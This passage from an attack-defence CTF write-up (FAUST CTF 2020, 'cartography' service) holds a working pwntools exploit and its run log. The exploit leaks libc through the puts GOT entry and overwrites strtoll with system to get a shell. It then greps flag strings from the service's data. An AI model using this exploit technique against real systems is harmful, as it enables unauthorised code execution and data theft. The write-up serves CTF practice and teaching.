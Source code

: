 ```python
# leak libc
p.sendlineafter('> ','2')
p.sendlineafter('Where do you want to read?\n',str(binary.got['puts']))
p.sendlineafter('How much do you want to read?\n','8')
puts = u64(p.recv(8))
log.info('puts: ' + hex(puts))
baselibc = puts - libc.symbols['puts']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc

# strtoall -> system
p.sendlineafter('> ','1')
p.sendlineafter('Where do you want to write?',str(binary.got['strtoll']))
p.sendlineafter('How much do you want to write?\n','8')
p.sendlineafter('Enter your sensor data:',p64(libc.symbols['system']))

# get a shell
p.sendlineafter('>','0')
p.sendlineafter('Enter the sector\'s size:\n','/bin/sh')
p.interactive()
```

Output (from local vulnbox instance):

```bash
# ./exploit.py
[*] '/pwd/datajerk/faustctf2020/srv/cartography/cartography'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/faustctf2020/srv/cartography/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 172.19.2.18 on port 6666: Done
[*] puts: 0x7fcb9aa02910
[*] baselibc: 0x7fcb9a991000
[*] Switching to interactive mode
$ id
uid=109(cartography) gid=116(cartography) groups=116(cartography)
$ pwd
/srv/cartography
$ grep -Pahr FAUST_ data
&\x00\x00\x00\x00AUST_XwjbvAGiAn7erlcAAAAABtp5nB/HgA9R
&\x00\x00\x00\x00AUST_XwiWIAGiAikrbLMAAAAAIlwPKw1A6adC
&\x00\x00\x00\x00AUST_XwinAAGiAhVYUrsAAAAA4pzCWXmUDTmn
&\x00\x00\x00\x00AUST_XwjiEAGiAtVS0h0AAAAAPcqH+5WXZyah
&\x00\x00\x00\x00AUST_XwjW0AGiAve+Il0AAAAA9G+mmfP1BCai
```
